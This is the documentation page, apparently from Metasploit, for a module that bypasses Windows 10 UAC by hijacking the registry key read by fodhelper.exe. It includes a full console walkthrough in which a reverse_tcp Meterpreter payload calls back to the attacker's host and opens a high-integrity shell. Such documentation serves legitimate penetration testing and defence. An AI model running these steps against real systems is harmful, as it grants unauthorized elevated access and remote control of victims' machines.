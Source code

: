 ## Intro

  This module will bypass Windows 10 UAC by hijacking a special key in the Registry under
  the current user hive, and inserting a custom command that will get invoked when
  the Windows fodhelper.exe application is launched. It will spawn a second shell that has the UAC
  flag turned off.

  This module modifies a registry key, but cleans up the key once the payload has
  been invoked.

  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting your
  payload in a separate process.

## Usage

  You'll first need to obtain a session on the target system.  
  Next, once the module is loaded, one simply needs to set the ```payload``` and ```session``` options.
  The module use an hardcoded timeout of 5 seconds during which it expects fodhelper.exe to be launched on the target system.
  On slower system this may be too short, resulting in no session being created. In this case disable the automatic payload handler (`set DISABLEPAYLOADHANDLER true`)
  and manually create a job handler corresponding to the payload.
  

##Scenario

```
msf > 
[*] Sending stage (1189423 bytes) to 192.168.50.4
[*] Meterpreter session 11 opened (192.168.50.1:4444 -> 192.168.50.4:1654) at 2017-05-22 19:10:43 +0100

msf > sessions -i 11
[*] Starting interaction with 11...

meterpreter > shell
Process 9496 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\sasha\Desktop>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192                                                                                     

C:\Users\sasha\Desktop>exit
exit
meterpreter > 
Background session 11? [y/N]  
msf > use exploit/windows/local/bypassuac_fodhelper 
msf exploit(bypassuac_fodhelper) > set SESSION 11
SESSION => 11
msf exploit(bypassuac_fodhelper) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(bypassuac_fodhelper) > set target 0
target => 0
msf exploit(bypassuac_fodhelper) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(bypassuac_fodhelper) > run

[*] Started reverse TCP handler on 192.168.50.1:4445 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\WINDOWS\system32\cmd.exe /c C:\WINDOWS\System32\fodhelper.exe
[*] Sending stage (957487 bytes) to 192.168.50.4
[*] Meterpreter session 12 opened (192.168.50.1:4445 -> 192.168.50.4:1655) at 2017-05-22 19:12:03 +0100
[*] Cleaining up registry keys ...

meterpreter > shell
Process 4076 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
ERROR: Unable to get user claims information.
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                                                                                 

C:\WINDOWS\system32>

```
